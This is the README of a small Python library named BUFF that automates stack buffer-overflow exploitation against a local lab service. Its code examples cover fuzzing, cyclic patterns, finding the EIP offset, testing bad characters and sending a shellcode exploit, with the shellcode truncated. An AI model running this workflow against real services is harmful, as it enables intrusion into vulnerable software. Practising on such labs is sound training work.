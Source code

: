 # What is BUFF?
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Send real exploit
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
